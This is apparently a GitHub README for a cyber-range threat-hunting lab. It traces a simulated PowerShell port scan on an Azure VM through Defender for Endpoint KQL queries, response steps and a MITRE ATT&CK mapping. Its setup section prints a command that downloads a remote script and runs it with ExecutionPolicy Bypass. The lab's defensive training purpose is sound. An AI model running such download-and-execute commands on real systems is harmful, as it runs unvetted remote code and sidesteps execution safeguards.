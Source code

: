 # 🛡️ Threat Hunting Project: Entropy Gorilla Port Scan

## 📁 Overview
This project documents the investigation, analysis, and response to an internal network scanning incident using Microsoft Defender for Endpoint (MDE), Azure, and PowerShell. The port scan was traced to a script executed on a Windows VM named `labuser`, using the SYSTEM account.

---

## 💣 Initial Setup: Simulated Attack
Before starting the hunt, a PowerShell-based port scanning script was intentionally executed on a VM to simulate malicious behavior and generate logs for threat hunting.

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

![Ran malicious code inside VM](https://github.com/user-attachments/assets/5b435f36-df4b-456d-8404-925af98891c6)

What the Malicious Script Does:

- The PowerShell script portscan.ps1 simulates an internal reconnaissance attack:

- Scans the IP range 10.0.0.4 to 10.0.0.10.

- Uses Test-NetConnection to ping each host and test for open TCP ports.

- Targets a list of common ports (e.g., 22, 80, 443, 3389).

- Logs results (open/closed) to C:\ProgramData\entropygorilla.log.

- Masquerades as a legitimate Windows process by naming itself RuntimeBroker.exe.
---

## 🚩 Scenario Summary
- A VM showed suspicious `ConnectionFailed` network activity.
- PowerShell script `portscan.ps1` was downloaded and executed.
- The scan targeted the internal subnet (10.0.0.0/16), using common ports.
- The script mimicked a system process (`RuntimeBroker.exe`).
- Activity mapped to multiple MITRE ATT&CK TTPs.

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: An internal asset is scanning local network hosts.
- Reason: High failed connection volume and unrestricted PowerShell use.

### 2. Data Collection
Queried the following tables in MDE Advanced Hunting:
```kql
- `DeviceNetworkEvents`
| where DeviceName == "labuser"
| where ActionType == "ConnectionFailed"
| summarize count() by DeviceName, ActionType, LocalIP
| order by count_
```
![Screenshot 2025-06-15 231048](https://github.com/user-attachments/assets/7e487c1b-0ee1-4e7d-abc6-8632f51eaff2)

### 3. Data Analysis
Confirmed host `10.0.0.95` showed excessive failed connections.
```kql
let IPInQuestion = "10.0.0.95";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

![Screenshot 2025-06-15 232635](https://github.com/user-attachments/assets/861c245d-d388-45ed-8c7e-7c8b45f18334)

### 4. Investigation
Used `DeviceProcessEvents` to locate scripts run during the attack:
```kql
let VMName = "labuser";
DeviceProcessEvents
| where DeviceName == VMName
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, ActionType
```
![Screenshot 2025-06-15 234201](https://github.com/user-attachments/assets/7f84ec6c-769f-4a18-8dfd-0eee0c798a34)

Identified the script:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```
**Logged in to the suspicious account and went to the ProgramData folder and found the portscan.ps1 and clicked to edit to see the whole script**

![Logged in to suspicious VM to check the file and the malicious script](https://github.com/user-attachments/assets/1f5a1ec5-39a8-45c8-975f-6580d39c2f56)

### 5. Response
Steps taken:
- ✅ Isolated the VM (`labuser`) using Microsoft Defender.
- ✅ Removed malicious file: `C:\programdata\portscan.ps1`
- ✅ Rebuilt the VM from Azure Portal.
- ✅ Enabled PowerShell Script Block & Module Logging.

![Screenshot 2025-06-15 234540](https://github.com/user-attachments/assets/0d04f893-ac1f-4b41-8097-2d8bb751c6e2)

### 6. Documentation
**Documented all processes for the threat hunting scenario in this pdf file:
**(file:///C:/Users/arbof/Downloads/FelipeCopy%20of%20Scenario%202_%20Sudden%20Network%20Slowdowns.pdf)**

### 7. Improvement
- 🔐 Hardened PowerShell logging.
- 📊 Created detection rule for excessive `ConnectionFailed` logs.
- 🧼 Reviewed scheduled tasks and services on critical assets.

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic              | Technique                            | ID         |
|---------------------|----------------------------------------|------------|
| Discovery           | Network Service Scanning              | T1046      |
| Discovery           | Remote System Discovery               | T1018      |
| Execution           | PowerShell                            | T1059.001  |
| Defense Evasion     | Masquerade Task or Service            | T1036.004  |
| Execution           | User Execution: Malicious File        | T1204.002  |
| Persistence*        | Create/Modify System Process          | T1543.003  |

---

## 📌 Recommendations
- Configure alerts for anomalous PowerShell execution.
- Lock down PowerShell usage via GPO or AppLocker.
- Monitor for file names mimicking system processes.
- Tune SIEM rules to detect local lateral movement patterns.

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Azure Portal (VM Deployment & Management)
- Windows PowerShell ISE
- PowerShell Logging Registry Policies

---

Project maintained by: Felipe Restrepo
Date: June 16, 2025
